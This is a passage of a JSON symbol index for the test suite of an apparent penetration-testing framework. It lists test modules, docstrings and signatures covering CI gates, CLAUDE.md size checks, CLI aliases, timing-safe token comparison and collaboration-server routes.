"test_strict_workflow_runs_security_scan", "signature": "def test_strict_workflow_runs_security_scan()"}, {"doc": "The strict workflow runs the test suite with pytest.", "kind": "function", "line": 56, "name": "test_strict_workflow_runs_pytest", "signature": "def test_strict_workflow_runs_pytest()"}, {"doc": "The strict workflow targets main and dev branches on push and pull request.", "kind": "function", "line": 62, "name": "test_strict_workflow_targets_main_branch", "signature": "def test_strict_workflow_targets_main_branch()"}, {"doc": "The legacy test.yml workflow must not contain the swallow flags.", "kind": "function", "line": 68, "name": "test_old_swallow_workflow_is_removed", "signature": "def test_old_swallow_workflow_is_removed()"}, {"doc": "The main CI workflow must not swallow a quality gate.", "kind": "function", "line": 83, "name": "test_ci_workflow_has_no_swallowed_quality_gate", "signature": "def test_ci_workflow_has_no_swallowed_quality_gate()"}, {"doc": "The main CI workflow gates high-severity bandit and typed mypy.", "kind": "function", "line": 91, "name": "test_ci_workflow_gates_severity_and_types", "signature": "def test_ci_workflow_gates_severity_and_types()"}]}, {"doc": "Guard against drift between CLAUDE.md numeric claims and reality.  CLAUDE.md publishes a handful of small facts about the repository (test count, presence of optional artefacts) that historically went stale silently. These assertions keep them honest. Each fact is a single assertion so a future drift only breaks the one line that needs editing.", "id": "tests/test_claudemd_consistency.py", "kind": "module", "label": "test_claudemd_consistency.py", "language": "py", "sha256": "ec8d5ac37e7f0c61", "symbol_count": 3, "symbols": [{"kind": "function", "line": 22, "name": "claude_md_text", "signature": "def claude_md_text()"}, {"doc": "The ``tests/`` row in §2 must match the real ``test_*.py`` file count.", "kind": "function", "line": 28, "name": "test_claude_md_reports_actual_test_file_count", "signature": "def test_claude_md_reports_actual_test_file_count(claude_md_text)"}, {"doc": "The obsolete ``two class Config defs`` note must not return.", "kind": "function", "line": 41, "name": "test_claude_md_does_not_reference_deduplicated_config", "signature": "def test_claude_md_does_not_reference_deduplicated_config(claude_md_text)"}]}, {"doc": "Enforce a hard cap on ``CLAUDE.md`` size.  ``CLAUDE.md`` is loaded into every assistant conversation. The Anthropic prompt cache only pays off when the document fits comfortably in the warm-cache window; beyond ~40 KB the file becomes a tax on every turn and the marginal context is rarely worth the cost. Long-form material belongs in the per-directory README files, with CLAUDE.md keeping only the durable, cross-cutting context.  This test is intentionally a single assertion so a future drift breaks exactly one line.", "id": "tests/test_claudemd_size.py", "kind": "module", "label": "test_claudemd_size.py", "language": "py", "sha256": "e36db35f9141d6b0", "symbol_count": 1, "symbols": [{"doc": "``CLAUDE.md`` must stay under the 40 KB prompt-cache budget.", "kind": "function", "line": 22, "name": "test_claude_md_under_size_budget", "signature": "def test_claude_md_under_size_budget()"}]}, {"doc": "``do_assign`` / ``do_show`` behaviour and shell wiring tests.  Covers operator-visible behaviour of the ``assign`` and ``show`` commands:  - :func:`cli.assign.apply_assign` validates, mutates and persists. - :func:`cli.show.format_payload` renders deterministic output. - ``lazyown.py`` wires both helpers into ``do_assign`` / ``do_show`` and adds ``complete_assign`` + an aliases refresh after every payload write.  The shell-side checks are static (regex over the source) so the tests do not have to boot ``LazyOwnShell`` or import ``utils`` (which reads ``sys.argv`` at module load time).", "id": "tests/test_cli_assign.py", "kind": "module", "label": "test_cli_assign.py", "language": "py", "sha256": "98498c44ab380ac7", "symbol_count": 36, "symbols": [{"kind": "function", "line": 29, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"kind": "class", "line": 34, "name": "TestApplyAssign", "signature": "class TestApplyAssign"}, {"kind": "class", "line": 105, "name": "TestFormatPayload", "signature": "class TestFormatPayload"}, {"kind": "class", "line": 163, "name": "TestLazyOwnAssignWiring", "signature": "class TestLazyOwnAssignWiring"}, {"doc": "Smoke-test the matching logic in isolation, without booting cmd2.", "kind": "class", "line": 230, "name": "TestCompleteAssignBehaviour", "signature": "class TestCompleteAssignBehaviour"}, {"kind": "method", "line": 35, "name": "test_returns_true_when_key_exists", "signature": "def test_returns_true_when_key_exists(self)"}, {"kind": "method", "line": 42, "name": "test_returns_false_when_key_missing", "signature": "def test_returns_false_when_key_missing(self)"}, {"kind": "method", "line": 49, "name": "test_does_not_invoke_save_on_failure", "signature": "def test_does_not_invoke_save_on_failure(self)"}, {"kind": "method", "line": 57, "name": "test_invokes_save_on_success", "signature": "def test_invokes_save_on_success(self)"}, {"kind": "method", "line": 66, "name": "test_save_receives_mutated_dict", "signature": "def test_save_receives_mutated_dict(self)"}, {"kind": "method", "line": 78, "name": "test_save_optional", "signature": "def test_save_optional(self)"}, {"doc": "End-to-end with the real ``core.config.save_payload``.", "kind": "method", "line": 85, "name": "test_persists_to_disk_via_save_payload", "signature": "def test_persists_to_disk_via_save_payload(self, tmp_path)"}, {"kind": "method", "line": 106, "name": "test_empty_payload_returns_empty_string", "signature": "def test_empty_payload_returns_empty_string(self)"}, {"kind": "method", "line": 111, "name": "test_renders_keys_sorted", "signature": "def test_renders_keys_sorted(self)"}, {"kind": "method", "line": 120, "name": "test_aligns_column_to_widest_key", "signature": "def test_aligns_column_to_widest_key(self)"}, {"kind": "method", "line": 130, "name": "test_none_values_render_as_empty", "signature": "def test_none_values_render_as_empty(self)"}, {"kind": "method", "line": 136, "name": "test_keys_whitelist_filters_output", "signature": "def test_keys_whitelist_filters_output(self)"}, {"kind": "method", "line": 143, "name": "test_missing_whitelist_keys_render_as_empty", "signature": "def test_missing_whitelist_keys_render_as_empty(self)"}, {"kind": "method", "line": 150, "name": "test_int_value_rendered_as_string", "signature": "def test_int_value_rendered_as_string(self)"}, {"kind": "method", "line": 156, "name": "test_no_ansi_codes", "signature": "def test_no_ansi_codes(self)"}, {"kind": "method", "line": 165, "name": "src", "signature": "def src(self)"}, {"doc": "Text of the module that now defines ``do_assign``/``do_show``/``do_payload``.\n\nThe monolith split moved these verbs into a phase ``CommandSet``\nwhile ``complete_assign`` stayed on ``LazyOwnShell``.", "kind": "method", "line": 169, "name": "migrated_src", "signature": "def migrated_src(self)"}, {"kind": "method", "line": 177, "name": "test_imports_apply_assign", "signature": "def test_imports_apply_assign(self, migrated_src)"}, {"kind": "method", "line": 180, "name": "test_imports_save_payload_from_core", "signature": "def test_imports_save_payload_from_core(self, migrated_src)"}, {"kind": "method", "line": 183, "name": "test_imports_format_payload", "signature": "def test_imports_format_payload(self, migrated_src)"}, {"kind": "method", "line": 186, "name": "test_do_assign_calls_apply_assign", "signature": "def test_do_assign_calls_apply_assign(self, migrated_src)"}, {"kind": "method", "line": 191, "name": "test_do_assign_refreshes_aliases", "signature": "def test_do_assign_refreshes_aliases(self, migrated_src)"}, {"kind": "method", "line": 196, "name": "test_do_assign_no_longer_directly_mutates_params", "signature": "def test_do_assign_no_longer_directly_mutates_params(self, migrated_src)"}, {"kind": "method", "line": 202, "name": "test_complete_assign_defined", "signature": "def test_complete_assign_defined(self, src)"}, {"kind": "method", "line": 205, "name": "test_complete_assign_reads_self_params", "signature": "def test_complete_assign_reads_self_params(self, src)"}, {"kind": "method", "line": 209, "name": "test_do_show_uses_format_payload", "signature": "def test_do_show_uses_format_payload(self, migrated_src)"}, {"kind": "method", "line": 213, "name": "test_do_payload_refreshes_aliases", "signature": "def test_do_payload_refreshes_aliases(self, migrated_src)"}, {"kind": "method", "line": 219, "name": "_extract_method_body", "signature": "def _extract_method_body(src, name)"}, {"kind": "method", "line": 233, "name": "test_returns_keys_starting_with_text", "signature": "def test_returns_keys_starting_with_text(self)"}, {"kind": "method", "line": 250, "name": "test_no_completion_for_value_position", "signature": "def test_no_completion_for_value_position(self)"}, {"kind": "function", "line": 72, "name": "saver", "signature": "def saver(p)"}]}, {"doc": "Remember-me token comparison must be timing-safe.  SDD contract: ``try_auto_login`` compares the operator-supplied token from payload.json against the stored per-user token. A ``==`` comparison leaks timing information about the secret; the comparison must use ``hmac.compare_digest`` like the C2 auth paths.", "id": "tests/test_cli_auth_remember.py", "kind": "module", "label": "test_cli_auth_remember.py", "language": "py", "sha256": "b8b23ad9f78b4678", "symbol_count": 7, "symbols": [{"doc": "Point the auth store at temporary files.", "kind": "function", "line": 24, "name": "isolated_auth", "signature": "def isolated_auth(tmp_path, monkeypatch)"}, {"kind": "class", "line": 48, "name": "TestRememberMeComparison", "signature": "class TestRememberMeComparison"}, {"kind": "method", "line": 49, "name": "test_valid_token_logs_in", "signature": "def test_valid_token_logs_in(self, isolated_auth)"}, {"kind": "method", "line": 63, "name": "test_wrong_token_rejected", "signature": "def test_wrong_token_rejected(self, isolated_auth)"}, {"kind": "method", "line": 76, "name": "test_comparison_is_timing_safe", "signature": "def test_comparison_is_timing_safe(self)"}, {"kind": "method", "line": 92, "name": "test_save_delegates_to_canonical_writer", "signature": "def test_save_delegates_to_canonical_writer(self)"}, {"kind": "method", "line": 109, "name": "test_save_writes_valid_json_and_audits", "signature": "def test_save_writes_valid_json_and_audits(self, isolated_auth)"}]}, {"doc": "``cli`` package declarativeness and ``CommandSet`` registration tests.  Validate the ``cli/`` package layout, the YAML-driven aliases loader and the ``CommandSet`` registry so ``lazyown.py`` no longer needs an inline aliases dict yet preserves every legacy alias name and substitution.", "id": "tests/test_cli_command_sets.py", "kind": "module", "label": "test_cli_command_sets.py", "language": "py", "sha256": "f1effaec07e9355c", "symbol_count": 56, "symbols": [{"kind": "function", "line": 24, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"kind": "function", "line": 29, "name": "_load_yaml", "signature": "def _load_yaml()"}, {"doc": "Canonical snapshot of the YAML alias keys.\n\nThe inline dict in ``lazyown.py`` was replaced by a YAML-driven loader.\nThis snapshot is embedded so the test does not depend on git or the\nprevious file revision. The monolith split renamed three aliases that\ncollided with newly promoted commands (``loot`` -> ``loot2``,\n``trace`` -> ``trace_kernel``, ``lol`` -> ``lol_list``); the set below\nreflects the post-split canonical alias names.", "kind": "function", "line": 34, "name": "_legacy_alias_keys_from_lazyown", "signature": "def _legacy_alias_keys_from_lazyown()"}, {"kind": "class", "line": 177, "name": "TestAliasYamlIntegrity", "signature": "class TestAliasYamlIntegrity"}, {"doc": "Eager-substitution path; ``lazy=True`` (the new default) is covered in\ntests/test_cli_enhancements.py. These tests exercise the legacy contract\nby passing ``lazy=False`` explicitly.", "kind": "class", "line": 208, "name": "TestAliasLoaderSubstitution", "signature": "class TestAliasLoaderSubstitution"}, {"kind": "class", "line": 297, "name": "TestLazyOwnRefactor", "signature": "class TestLazyOwnRefactor"}, {"kind": "class", "line": 324, "name": "TestCommandSetDiscovery", "signature": "class TestCommandSetDiscovery"}, {"kind": "class", "line": 356, "name": "TestRegisterCommandSets", "signature": "class TestRegisterCommandSets"}, {"kind": "class", "line": 394, "name": "TestLazyOwnStillParses", "signature": "class TestLazyOwnStillParses"}, {"doc": "LazyOwnCommandSet forwards single-underscore shell helpers.\n\nThe monolith split left several private helpers (``_scope_save``,\n``_load_adversaries``, ...) on ``LazyOwnShell`` while their ``do_*``\ncallers moved into CommandSets. ``__getattr__`` must forward those\nsingle-underscore reads to the bound shell, stay inert before\nregistration, and still refuse dunder / ``complete_`` probes.", "kind": "class", "line": 399, "name": "TestPrivateHelperForwarding", "signature": "class TestPrivateHelperForwarding"}, {"kind": "method", "line": 178, "name": "test_yaml_loads", "signature": "def test_yaml_loads(self)"}, {"kind": "method", "line": 183, "name": "test_yaml_keys_match_legacy_set", "signature": "def test_yaml_keys_match_legacy_set(self)"}, {"kind": "method", "line": 191, "name": "test_yaml_count_is_125", "signature": "def test_yaml_count_is_125(self)"}, {"kind": "method", "line": 194, "name": "test_all_values_are_strings", "signature": "def test_all_values_are_strings(self)"}, {"kind": "method", "line": 198, "name": "test_vuln_alias_carries_ansi_escape", "signature": "def test_vuln_alias_carries_ansi_escape(self)"}, {"kind": "method", "line": 201, "name": "test_ls_is_unchanged", "signature": "def test_ls_is_unchanged(self)"}, {"kind": "method", "line": 204, "name": "test_q_is_exit", "signature": "def test_q_is_exit(self)"}, {"kind": "method", "line": 214, "name": "test_load_aliases_substitutes_payload_values", "signature": "def test_load_aliases_substitutes_payload_values(self)"}, {"kind": "method", "line": 236, "name": "test_missing_keys_substitute_to_empty_string", "signature": "def test_missing_keys_substitute_to_empty_string(self)"}, {"kind": "method", "line": 243, "name": "test_none_values_substitute_to_empty_string", "signature": "def test_none_values_substitute_to_empty_string(self)"}, {"kind": "method", "line": 249, "name": "test_aliases_with_no_placeholders_unchanged", "signature": "def test_aliases_with_no_placeholders_unchanged(self)"}, {"kind": "method", "line": 257, "name": "test_loader_rejects_non_mapping", "signature": "def test_loader_rejects_non_mapping(self, tmp_path)"}, {"kind": "method", "line": 265, "name": "test_loader_rejects_non_string_value", "signature": "def test_loader_rejects_non_string_value(self, tmp_path)"}, {"kind": "method", "line": 273, "name": "test_loader_handles_empty_file", "signature": "def test_loader_handles_empty_file(self, tmp_path)"}, {"kind": "method", "line": 280, "name": "test_real_yaml_loads_with_real_payload", "signature": "def test_real_yaml_loads_with_real_payload(self)"}, {"kind": "method", "line": 289, "name": "test_lazy_default_preserves_placeholders", "signature": "def test_lazy_default_preserves_placeholders(self)"}, {"kind": "method", "line": 299, "name": "lazyown_text", "signature": "def lazyown_text(self)"}, {"kind": "method", "line": 302, "name": "test_no_inline_aliases_dict_with_entries", "signature": "def test_no_inline_aliases_dict_with_entries(self, lazyown_text)"}, {"kind": "method", "line": 311, "name": "test_imports_cli_aliases_loader", "signature": "def test_imports_cli_aliases_loader(self, lazyown_text)"}, {"kind": "method", "line": 314, "name": "test_imports_cli_registry", "signature": "def test_imports_cli_registry(self, lazyown_text)"}, {"kind": "method", "line": 317, "name": "test_init_populates_aliases_at_runtime", "signature": "def test_init_populates_aliases_at_runtime(self, lazyown_text)"}, {"kind": "method", "line": 320, "name": "test_init_registers_command_sets", "signature": "def test_init_registers_command_sets(self, lazyown_text)"}, {"kind": "method", "line": 325, "name": "test_discovery_excludes_underscore_modules", "signature": "def test_discovery_excludes_underscore_modules(self)"}, {"kind": "method", "line": 331, "name": "test_discovers_diagnostics_pilot", "signature": "def test_discovers_diagnostics_pilot(self)"}, {"kind": "method", "line": 337, "name": "test_pilot_commandset_subclasses_base", "signature": "def test_pilot_commandset_subclasses_base(self)"}, {"kind": "method", "line": 343, "name": "test_pilot_commandset_declares_phase", "signature": "def test_pilot_commandset_declares_phase(self)"}, {"kind": "method", "line": 348, "name": "test_pilot_commandset_has_do_methods", "signature": "def test_pilot_commandset_has_do_methods(self)"}, {"kind": "method", "line": 357, "name": "test_registers_on_a_minimal_cmd2_instance", "signature": "def test_registers_on_a_minimal_cmd2_instance(self)"}, {"kind": "method", "line": 369, "name": "test_register_skips_failing_commandset_without_aborting", "signature": "def test_register_skips_failing_commandset_without_aborting(self, monkeypatch)"}, {"kind": "method", "line": 395, "name": "test_ast_parse", "signature": "def test_ast_parse(self)"}, {"kind": "method", "line": 409, "name": "_probe_class", "signature": "def _probe_class(self)"}, {"kind": "method", "line": 424, "name": "_shell_class", "signature": "def _shell_class(self)"}, {"kind": "method", "line": 437, "name": "test_private_helper_inert_before_registration", "signature": "def test_private_helper_inert_before_registration(self)"}, {"kind": "method", "line": 442, "name": "test_private_helper_forwards_after_registration", "signature": "def test_private_helper_forwards_after_registration(self)"}, {"kind": "method", "line": 448, "name": "test_dunder_still_refused_after_registration", "signature": "def test_dunder_still_refused_after_registration(self)"}, {"kind": "method", "line": 455, "name": "test_missing_private_raises_not_utils_fallback", "signature": "def test_missing_private_raises_not_utils_fallback(self)"}, {"kind": "class", "line": 362, "name": "_Bare", "signature": "class _Bare(Cmd)"}, {"kind": "class", "line": 374, "name": "_ExplosiveCommandSet", "signature": "class _ExplosiveCommandSet(CommandSet)"}, {"kind": "function", "line": 378, "name": "fake_iter", "signature": "def fake_iter()"}, {"kind": "class", "line": 386, "name": "_Bare", "signature": "class _Bare(Cmd)"}, {"kind": "class", "line": 414, "name": "_Probe", "signature": "class _Probe(LazyOwnCommandSet)"}, {"kind": "class", "line": 427, "name": "_Shell", "signature": "class _Shell(Cmd)"}, {"kind": "method", "line": 375, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 419, "name": "do_probe", "signature": "def do_probe(self, line)"}, {"kind": "method", "line": 428, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 432, "name": "_scope_helper", "signature": "def _scope_helper(self)"}]}, {"doc": "Tests for cli/cli_enhancements.py and the audit CommandSet.  Each primitive is small and pure; tests cover happy + sad paths without spinning up cmd2 except where strictly required (audit CommandSet wiring).", "id": "tests/test_cli_enhancements.py", "kind": "module", "label": "test_cli_enhancements.py", "language": "py", "sha256": "c4164d5a87d3e6db", "symbol_count": 50, "symbols": [{"kind": "function", "line": 39, "name": "fixture_index", "signature": "def fixture_index()"}, {"kind": "function", "line": 50, "name": "test_fuzzy_exact_match_scores_one", "signature": "def test_fuzzy_exact_match_scores_one(fixture_index)"}, {"kind": "function", "line": 56, "name": "test_fuzzy_alias_resolves_to_command", "signature": "def test_fuzzy_alias_resolves_to_command(fixture_index)"}, {"kind": "function", "line": 62, "name": "test_fuzzy_substring_match", "signature": "def test_fuzzy_substring_match(fixture_index)"}, {"kind": "function", "line": 67, "name": "test_fuzzy_empty_query_lists_all", "signature": "def test_fuzzy_empty_query_lists_all(fixture_index)"}, {"kind": "function", "line": 72, "name": "test_fuzzy_returns_empty_on_garbage", "signature": "def test_fuzzy_returns_empty_on_garbage(fixture_index)"}, {"kind": "function", "line": 80, "name": "test_completer_set_lists_payload_keys", "signature": "def test_completer_set_lists_payload_keys()"}, {"kind": "function", "line": 89, "name": "test_completer_target_lists_targets_and_rhost", "signature": "def test_completer_target_lists_targets_and_rhost()"}, {"kind": "function", "line": 101, "name": "test_completer_wordlist_keys_only_when_set", "signature": "def test_completer_wordlist_keys_only_when_set()"}, {"kind": "function", "line": 108, "name": "test_completer_addon_lister_used_for_run", "signature": "def test_completer_addon_lister_used_for_run()"}, {"kind": "function", "line": 116, "name": "test_completer_filters_by_partial", "signature": "def test_completer_filters_by_partial()"}, {"kind": "function", "line": 123, "name": "test_completer_ignores_unknown_command", "signature": "def test_completer_ignores_unknown_command()"}, {"kind": "function", "line": 132, "name": "test_dynamic_resolver_renders_against_current_payload", "signature": "def test_dynamic_resolver_renders_against_current_payload()"}, {"kind": "function", "line": 140, "name": "test_dynamic_resolver_missing_keys_become_empty", "signature": "def test_dynamic_resolver_missing_keys_become_empty()"}, {"kind": "function", "line": 146, "name": "test_dynamic_resolver_payload_changes_propagate", "signature": "def test_dynamic_resolver_payload_changes_propagate()"}, {"kind": "function", "line": 155, "name": "test_dynamic_resolver_passes_through_literal_braces", "signature": "def test_dynamic_resolver_passes_through_literal_braces()"}, {"kind": "function", "line": 162, "name": "test_load_aliases_lazy_preserves_placeholders", "signature": "def test_load_aliases_lazy_preserves_placeholders(tmp_path)"}, {"kind": "function", "line": 169, "name": "test_load_aliases_eager_substitutes", "signature": "def test_load_aliases_eager_substitutes(tmp_path)"}, {"kind": "function", "line": 179, "name": "test_hot_reloader_detects_new_file", "signature": "def test_hot_reloader_detects_new_file(tmp_path)"}, {"kind": "function", "line": 191, "name": "test_hot_reloader_detects_modification", "signature": "def test_hot_reloader_detects_modification(tmp_path)"}, {"kind": "function", "line": 208, "name": "test_hot_reloader_ignores_non_addon_files", "signature": "def test_hot_reloader_ignores_non_addon_files(tmp_path)"}, {"kind": "function", "line": 221, "name": "test_status_tail_extracts_open_ports", "signature": "def test_status_tail_extracts_open_ports()"}, {"kind": "function", "line": 237, "name": "test_status_tail_handles_empty", "signature": "def test_status_tail_handles_empty()"}, {"kind": "function", "line": 244, "name": "test_status_tail_no_ports_falls_back_to_stats", "signature": "def test_status_tail_no_ports_falls_back_to_stats()"}, {"kind": "function", "line": 254, "name": "test_transcript_grep_matches_recent_output", "signature": "def test_transcript_grep_matches_recent_output(tmp_path)"}, {"kind": "function", "line": 262, "name": "test_transcript_grep_command_filter", "signature": "def test_transcript_grep_command_filter(tmp_path)"}, {"kind": "function", "line": 270, "name": "test_transcript_grep_invalid_regex", "signature": "def test_transcript_grep_invalid_regex(tmp_path)"}, {"kind": "function", "line": 277, "name": "test_transcript_persists_and_reloads", "signature": "def test_transcript_persists_and_reloads(tmp_path)"}, {"kind": "function", "line": 285, "name": "test_transcript_capacity", "signature": "def test_transcript_capacity(tmp_path)"}, {"kind": "class", "line": 297, "name": "FakeIO", "signature": "class FakeIO"}, {"kind": "function", "line": 311, "name": "test_form_collects_values_with_defaults", "signature": "def test_form_collects_values_with_defaults()"}, {"kind": "function", "line": 325, "name": "test_form_options_constraint_falls_back_to_default", "signature": "def test_form_options_constraint_falls_back_to_default()"}, {"kind": "function", "line": 336, "name": "test_form_required_reprompted", "signature": "def test_form_required_reprompted()"}, {"kind": "class", "line": 349, "name": "_ShellLike", "signature": "class _ShellLike"}, {"kind": "function", "line": 359, "name": "test_commands_from_cmd2_shell_extracts_doc_and_aliases", "signature": "def test_commands_from_cmd2_shell_extracts_doc_and_aliases()"}, {"doc": "Just enough cmd2 surface to instantiate AuditCommandSet helpers.", "kind": "class", "line": 371, "name": "_MiniShell", "signature": "class _MiniShell"}, {"kind": "function", "line": 399, "name": "test_audit_fz_command_emits_results", "signature": "def test_audit_fz_command_emits_results(tmp_path)"}, {"kind": "function", "line": 409, "name": "test_audit_status_tail_reports_no_evidence", "signature": "def test_audit_status_tail_reports_no_evidence(tmp_path)"}, {"kind": "function", "line": 419, "name": "test_audit_grep_log_handles_empty_store", "signature": "def test_audit_grep_log_handles_empty_store(tmp_path)"}, {"kind": "function", "line": 429, "name": "test_audit_form_unknown_lists_known", "signature": "def test_audit_form_unknown_lists_known(tmp_path)"}, {"kind": "method", "line": 298, "name": "__init__", "signature": "def __init__(self, replies)"}, {"kind": "method", "line": 302, "name": "prompt", "signature": "def prompt(self, message, default)"}, {"kind": "method", "line": 307, "name": "emit", "signature": "def emit(self, line)"}, {"doc": "Full TCP/UDP nmap with vuln scripts.", "kind": "method", "line": 352, "name": "do_lazynmap", "signature": "def do_lazynmap(self, _)"}, {"doc": "Directory brute-force.", "kind": "method", "line": 355, "name": "do_gobuster", "signature": "def do_gobuster(self, _)"}, {"kind": "method", "line": 374, "name": "__init__", "signature": "def __init__(self, tmp)"}, {"kind": "method", "line": 386, "name": "poutput", "signature": "def poutput(self, msg)"}, {"kind": "method", "line": 389, "name": "get_all_commands", "signature": "def get_all_commands(self)"}, {"doc": "nmap vuln scan", "kind": "method", "line": 392, "name": "do_lazynmap", "signature": "def do_lazynmap(self, _)"}, {"doc": "dir brute", "kind": "method", "line": 395, "name": "do_gobuster", "signature": "def do_gobuster(self, _)"}]}, {"doc": "tests/test_collab_and_onboarding.py  Tests for: - Gap #2 (team server): collab_bp UI route, SSE stream, operator registry, lock manager, event bus, and publish endpoint. - Gap #3 (onboarding): QUICKSTART.md completeness, wizard module contract, collab_join CLI command structure.", "id": "tests/test_collab_and_onboarding.py", "kind": "module", "label": "test_collab_and_onboarding.py", "language": "py", "sha256": "79571e691df8779e", "symbol_count": 91, "symbols": [{"doc": "Build a minimal Flask app with collab_bp registered.\n\nThe collab endpoints were hardened with ``flask-login`` auth\n(``_collab_login_required`` / ``_collab_permission_required``), so the\ntest app installs a login manager that auto-authenticates a test\noperator on every request. This exercises the real authenticated code\npath instead of bypassing the guard.", "kind": "function", "line": 33, "name": "_make_app", "signature": "def _make_app()"}, {"doc": "Attach ``flask-login`` with an always-authenticated test operator.\n\nA no-op when ``flask-login`` is unavailable, mirroring the collab\nblueprint's own ``_AUTH_AVAILABLE`` fallback so the tests match runtime\nbehaviour on either configuration.", "kind": "function", "line": 54, "name": "_install_test_login", "signature": "def _install_test_login(app)"}, {"kind": "class", "line": 87, "name": "TestQuickstartExists", "signature": "class TestQuickstartExists"}, {"kind": "class", "line": 95, "name": "TestQuickstartContent", "signature": "class TestQuickstartContent"}, {"kind": "class", "line": 142, "name": "TestWizardContract", "signature": "class TestWizardContract"}, {"kind": "class", "line": 170, "name": "TestCollabModuleExists", "signature": "class TestCollabModuleExists"}, {"kind": "class", "line": 181, "name": "TestCollabModuleClasses", "signature": "class TestCollabModuleClasses"}, {"kind": "class", "line": 220, "name": "TestEventBus", "signature": "class TestEventBus"}, {"kind": "class", "line": 281, "name": "TestLockManager", "signature": "class TestLockManager"}, {"kind": "class", "line": 332, "name": "TestOperatorRegistry", "signature": "class TestOperatorRegistry"}, {"kind": "class", "line": 371, "name": "TestCollabFlaskRoutes", "signature": "class TestCollabFlaskRoutes"}, {"kind": "class", "line": 430, "name": "TestCollabTemplate", "signature": "class TestCollabTemplate"}, {"kind": "class", "line": 472, "name": "TestCollabJoinCLICommand", "signature": "class TestCollabJoinCLICommand"}, {"kind": "class", "line": 66, "name": "_TestOperator", "signature": "class _TestOperator(UserMixin)"}, {"kind": "function", "line": 74, "name": "_load_user", "signature": "def _load_user(user_id)"}, {"kind": "function", "line": 78, "name": "_auto_login", "signature": "def _auto_login()"}, {"kind": "method", "line": 88, "name": "test_file_present", "signature": "def test_file_present(self)"}, {"kind": "method", "line": 91, "name": "test_not_empty", "signature": "def test_not_empty(self)"}, {"kind": "method", "line": 97, "name": "text", "signature": "def text(self)"}, {"kind": "method", "line": 100, "name": "test_has_install_section", "signature": "def test_has_install_section(self, text)"}, {"kind": "method", "line": 103, "name": "test_has_wizard_section", "signature": "def test_has_wizard_section(self, text)"}, {"kind": "method", "line": 106, "name": "test_has_recon_step", "signature": "def test_has_recon_step(self, text)"}, {"kind": "method", "line": 109, "name": "test_has_c2_step", "signature": "def test_has_c2_step(self, text)"}, {"kind": "method", "line": 112, "name": "test_has_collab_step", "signature": "def test_has_collab_step(self, text)"}, {"kind": "method", "line": 115, "name": "test_has_troubleshooting", "signature": "def test_has_troubleshooting(self, text)"}, {"kind": "method", "line": 118, "name": "test_mentions_payload_json", "signature": "def test_mentions_payload_json(self, text)"}, {"kind": "method", "line": 121, "name": "test_mentions_sessions", "signature": "def test_mentions_sessions(self, text)"}, {"kind": "method", "line": 124, "name": "test_five_minutes_promise", "signature": "def test_five_minutes_promise(self, text)"}, {"kind": "method", "line": 127, "name": "test_no_hardcoded_ips", "signature": "def test_no_hardcoded_ips(self)"}, {"kind": "method", "line": 143, "name": "test_wizard_module_exists", "signature": "def test_wizard_module_exists(self)"}, {"kind": "method", "line": 146, "name": "test_wizard_has_run_function", "signature": "def test_wizard_has_run_function(self)"}, {"kind": "method", "line": 151, "name": "test_wizard_has_build_readiness", "signature": "def test_wizard_has_build_readiness(self)"}, {"kind": "method", "line": 156, "name": "test_wizard_does_not_import_lazyown", "signature": "def test_wizard_does_not_import_lazyown(self)"}, {"kind": "method", "line": 160, "name": "test_wizard_does_not_import_lazyc2", "signature": "def test_wizard_does_not_import_lazyc2(self)"}, {"kind": "method", "line": 171, "name": "test_module_present", "signature": "def test_module_present(self)"}, {"kind": "method", "line": 174, "name": "test_template_present", "signature": "def test_template_present(self)"}, {"kind": "method", "line": 177, "name": "test_template_not_empty", "signature": "def test_template_not_empty(self)"}, {"kind": "method", "line": 183, "name": "tree", "signature": "def tree(self)"}, {"kind": "method", "line": 186, "name": "test_has_event_bus", "signature": "def test_has_event_bus(self, tree)"}, {"kind": "method", "line": 190, "name": "test_has_lock_manager", "signature": "def test_has_lock_manager(self, tree)"}, {"kind": "method", "line": 194, "name": "test_has_operator_registry", "signature": "def test_has_operator_registry(self, tree)"}, {"kind": "method", "line": 198, "name": "test_has_ui_route", "signature": "def test_has_ui_route(self, tree)"}, {"kind": "method", "line": 202, "name": "test_has_stream_route", "signature": "def test_has_stream_route(self, tree)"}, {"kind": "method", "line": 206, "name": "test_has_publish_route", "signature": "def test_has_publish_route(self)"}, {"kind": "method", "line": 210, "name": "test_has_lock_route", "signature": "def test_has_lock_route(self)"}, {"kind": "method", "line": 222, "name": "bus", "signature": "def bus(self)"}, {"kind": "method", "line": 227, "name": "test_publish_and_receive", "signature": "def test_publish_and_receive(self, bus)"}, {"kind": "method", "line": 237, "name": "test_history_replay_on_subscribe", "signature": "def test_history_replay_on_subscribe(self, bus)"}, {"kind": "method", "line": 248, "name": "test_recent_returns_correct_count", "signature": "def test_recent_returns_correct_count(self, bus)"}, {"kind": "method", "line": 256, "name": "test_reset_clears_history", "signature": "def test_reset_clears_history(self, bus)"}, {"kind": "method", "line": 263, "name": "test_full_queue_drops_stale_subscriber", "signature": "def test_full_queue_drops_stale_subscriber(self, bus)"}, {"kind": "method", "line": 283, "name": "lm", "signature": "def lm(self)"}, {"kind": "method", "line": 288, "name": "test_acquire_grants_first_operator", "signature": "def test_acquire_grants_first_operator(self, lm)"}, {"kind": "method", "line": 291, "name": "test_second_operator_denied", "signature": "def test_second_operator_denied(self, lm)"}, {"kind": "method", "line": 295, "name": "test_same_operator_can_re_acquire", "signature": "def test_same_operator_can_re_acquire(self, lm)"}, {"kind": "method", "line": 299, "name": "test_release_allows_next_operator", "signature": "def test_release_allows_next_operator(self, lm)"}, {"kind": "method", "line": 304, "name": "test_release_by_wrong_operator_fails", "signature": "def test_release_by_wrong_operator_fails(self, lm)"}, {"kind": "method", "line": 308, "name": "test_expired_lock_releases_automatically", "signature": "def test_expired_lock_releases_automatically(self, lm)"}, {"kind": "method", "line": 313, "name": "test_all_locks_returns_list", "signature": "def test_all_locks_returns_list(self, lm)"}, {"kind": "method", "line": 321, "name": "test_reset_clears_all_locks", "signature": "def test_reset_clears_all_locks(self, lm)"}, {"kind": "method", "line": 334, "name": "reg", "signature": "def reg(self)"}, {"kind": "method", "line": 339, "name": "test_join_registers_operator", "signature": "def test_join_registers_operator(self, reg)"}, {"kind": "method", "line": 344, "name": "test_leave_marks_inactive", "signature": "def test_leave_marks_inactive(self, reg)"}, {"kind": "method", "line": 350, "name": "test_multiple_operators", "signature": "def 